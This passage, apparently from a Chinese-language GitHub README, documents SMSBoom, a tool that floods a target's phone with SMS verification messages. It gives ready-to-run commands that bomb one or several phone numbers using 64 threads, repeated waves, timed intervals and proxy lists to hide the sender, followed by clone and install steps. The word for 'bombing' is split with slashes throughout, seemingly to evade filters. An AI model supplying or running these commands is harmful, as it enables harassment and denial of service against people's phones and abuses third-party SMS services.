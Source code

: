 4. 使用前必须更新一遍最新接口

```shell
smsboom.py update
```

> 若更新接口出现错误 `ssl_`, 请参见 [issue](https://github.com/OpenEthan/SMSBoom/issues/2) **关闭代理软件**再 update.

5. 传递命令示例

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.py run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.py run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
```

### Development

1. Download 下载项目

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```

2. 配置虚拟环境 Deploy Virtual Envirement  

**前提条件:** 请确保自己的电脑有 `python3.x` 的环境,推荐使用 `3.8` 及以上!  

#### 使用 pipenv

1. 安装 pipenv 包管理工具.  

```shell
pip install pipenv
```

2. 为项目构建虚拟环境.  

```shell
pipenv install  # 仅使用轰//炸功能
pipenv install --dev # 使用 webui 调试接口功能.
```
